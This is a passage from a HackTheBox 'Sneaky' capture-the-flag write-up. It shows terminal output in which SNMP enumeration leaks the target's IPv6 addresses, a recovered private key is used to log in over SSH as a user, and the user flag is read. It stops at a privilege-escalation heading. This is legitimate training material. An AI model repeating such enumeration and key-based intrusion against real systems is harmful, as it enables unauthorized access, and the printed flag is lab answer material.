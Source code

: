 
    [+] Snmpwalk found.
    [+] Grabbing IPv6.
    [+] Loopback -> 0000:0000:0000:0000:0000:0000:0000:0001
**[+] Unique-Local -> dead:beef:0000:0000:0250:56ff:feb9:8875**

    [+] Link Local -> fe80:0000:0000:0000:0250:56ff:feb9:8875
    kali@kali:~/Documents/HackTheBox/Sneaky/Enyx$ cd ..
    kali@kali:~/Documents/HackTheBox/Sneaky$ ssh -i id_rsa thrasivoulos@fe80:0000:0000:0000:0250:56ff:feb9:8875
    ssh: connect to host fe80::250:56ff:feb9:8875 port 22: Invalid argument
    kali@kali:~/Documents/HackTheBox/Sneaky$ mv id_rsa ssh.key
    kali@kali:~/Documents/HackTheBox/Sneaky$ chmod 600 ssh.key
    kali@kali:~/Documents/HackTheBox/Sneaky$ ssh -i id_rsa thrasivoulos@fe80:0000:0000:0000:0250:56ff:feb9:8875
    Warning: Identity file id_rsa not accessible: No such file or directory.
    ssh: connect to host fe80::250:56ff:feb9:8875 port 22: Invalid argument
    kali@kali:~/Documents/HackTheBox/Sneaky$ ssh -i ssh.key thrasivoulos@fe80:0000:0000:0000:0250:56ff:feb9:8875
    ssh: connect to host fe80::250:56ff:feb9:8875 port 22: Invalid argument
    
**kali@kali:~/Documents/HackTheBox/Sneaky$ ssh -i ssh.key thrasivoulos@dead:beef:0000:0000:0250:56ff:feb9:8875**

    load pubkey "ssh.key": invalid format
    The authenticity of host 'dead:beef::250:56ff:feb9:8875 (dead:beef::250:56ff:feb9:8875)' can't be established.
    ECDSA key fingerprint is SHA256:KCwXgk+ryPhJU+UhxyHAO16VCRFrty3aLPWPSkq/E2o.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added 'dead:beef::250:56ff:feb9:8875' (ECDSA) to the list of known hosts.
    Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-75-generic i686)

    * Documentation:  https://help.ubuntu.com/

    System information as of Mon Nov  9 09:00:53 EET 2020

    System load: 0.0               Memory usage: 4%   Processes:       177
    Usage of /:  9.9% of 18.58GB   Swap usage:   0%   Users logged in: 0

    Graph this data and manage this system at:
        https://landscape.canonical.com/

    Your Hardware Enablement Stack (HWE) is supported until April 2019.
    Last login: Sun May 14 20:22:53 2017 from dead:beef:1::1077
**thrasivoulos@Sneaky:~$**


    thrasivoulos@Sneaky:~$ whoami
    thrasivoulos
    thrasivoulos@Sneaky:~$ ls
    user.txt
    thrasivoulos@Sneaky:~$ cat user.txt 
    9fe14f76222db23a770f20136751bdab
    thrasivoulos@Sneaky:~$ 

---
### Step 4 - Privilage Escalation
---
